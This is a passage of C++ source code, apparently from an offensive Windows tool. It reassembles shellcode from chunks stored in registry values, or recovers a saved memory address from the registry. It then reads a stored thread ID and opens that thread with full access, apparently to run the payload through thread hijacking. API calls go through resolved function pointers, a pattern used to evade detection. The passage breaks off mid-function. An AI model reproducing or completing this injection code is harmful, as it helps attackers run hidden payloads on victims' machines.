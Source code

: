 ```cpp
            // We copy the saved bytes into the main buffer
            for (int j = 0; j < copyingNow; j++) {
                cbBuf[(CHUNKSIZE * i) + j] = tmpBuf[j];
                counter++;
            }
            // memcpyFunc(cbBuf + CHUNKSIZE * i, tmpBuf, copyingNow);
            // We update the remaining bytes
            remainingBytes = remainingBytes - copyingNow;
            if (NULL != tmpBuf) {
                freeFunc(tmpBuf);
                tmpBuf = NULL;
            }
#ifdef _DEBUG
            printfFunc("Remaining bytes: %u\n", remainingBytes);
#endif
        }
    }

#ifdef _DEBUG
    if (NULL == cbBuf || counter != shellcodeSize) {
        printfFunc("Error fetching saved bytes\n");
        return EXIT_FAILURE;
    }
#endif
#else

    // If we didin't use the registry, we used a memory region
    // So we just need to recover the address
    ULONG64 cbBuf = 0;
    DWORD dwSize = sizeof(cbBuf);

    value = (LPCTSTR)savedDllAddress;
    if (RegGetValueFunc(hKey, NULL, value, RRF_RT_QWORD, NULL, &cbBuf, &dwSize) == ERROR_SUCCESS) {
        if (0 == startAddress) {
            return EXIT_FAILURE;
        }
    }

#endif

#ifdef RESUME_THREAD
    DWORD threadId = 0;
    DWORD tidSize = sizeof(threadId);

    value = (LPCTSTR)tiValue;
    if (RegGetValueFunc(hKey, NULL, value, RRF_RT_DWORD, NULL, &threadId, &tidSize) == ERROR_SUCCESS) {
        if (0 == threadId) {
#ifdef _DEBUG
            printfFunc("Error fetching Thread ID\n");
#endif
            return EXIT_FAILURE;
        }
    }


#ifdef _DEBUG
    printfFunc("Targeting Thread ID: %i\n", threadId);
#endif

    HANDLE hThread = OpenThreadFunc(THREAD_ALL_ACCESS, FALSE, threadId);
    if (hThread == NULL) {
#ifdef _DEBUG
```